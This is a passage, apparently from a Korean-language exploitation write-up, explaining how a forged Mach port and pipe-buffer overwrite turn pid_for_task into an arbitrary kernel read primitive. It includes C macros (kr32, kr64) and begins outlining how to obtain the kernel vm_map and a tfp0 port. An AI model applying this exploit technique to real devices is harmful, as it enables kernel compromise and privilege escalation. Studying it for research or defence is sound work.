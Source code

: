 이 함수의 구현 원리는 다음과 같다.

```c
int pid = get_ipc_port(port)->task->bsd_info->p_pid;
```

그리고 구조체 멤버 접근의 본질은 오프셋을 계산하는 것이다.

```c
int pid = *(*(*(get_ipc_port(port) + offset_task) + offset_bsd_info) + offset_pid)
```

우리가 fakeport를 제어할 수 있기 때문에, 그 `bsd_info`를 `addr - offset_pid`로 변경할 수 있다. 

이때`(*(get_ipc_port(port) + offset_task) + offset_bsd_info) = addr - offset_pid`가 되어, 
위의 공식은 다음과 같이 동등하게 표현된다.

```c
int pid = *(addr - offset_pid + offset_pid) = *addr
```

이 방식을 통해 `addr` 위치의 4바이트 데이터를 안정적으로 읽을 수 있고,
결과적으로 완벽한 커널 읽기 프리미티브를 구현할 수 있다.

```c
uint64_t *read_addr_ptr = (uint64_t *)((uint64_t)fake_task + 0x380);   //p/x offsetof(struct task, bsd_info)

    //0x60 = p/x offsetof(struct proc, p_pid)
#define kr32(addr, value)\
    read(port_fds[0], (void *)fakeport, sizeof(kport_t) + 0x600);\
    *read_addr_ptr = addr - 0x60;\  
    write(port_fds[1], (void *)fakeport, sizeof(kport_t) + 0x600);\
    value = 0x0;\
    ret = pid_for_task(our_port, (int *)&value);
```

먼저 Pipe 버퍼를 통해 `bsd_info`를 수정한 뒤, fakeport 핸들을 `pid_for_task`에 전달하면 지정한 주소의 4바이트 데이터를 읽어올 수 있다.

여러 번의 `kr32` 호출을 조합하면 임의 길이의 데이터를 커널에서 읽는 것이 가능하다.

조합하여 아래 8바이트 커널 읽기 매크로를 만들 수 있다.

```c
    uint32_t read64_tmp;
#define kr64(addr, value)\
    kr32(addr + 0x4, read64_tmp);\
    kr32(addr, value);\
    value = value | ((uint64_t)read64_tmp << 32)
```

### 커널 vm_map을 획득하여 tfp0 포트 생성

현재 프로세스의 task_port를 기반으로 모든 프로세스를 열거할 수 있으며, 이 과정에서 수백 번의 커널 읽기가 필요하다.

따라서 앞서 설명한 안정적인 pid_for_task 함수를 통한 커널 읽기 프리미티브를 활용해야한다.

`proc`는 양방향 연결 리스트이므로, 현재 프로세스부터 시작해 앞쪽으로 `pid=0`까지 순회할 수 있다. 
그 후 커널 태스크에서 `vm_map`을 가져오자.
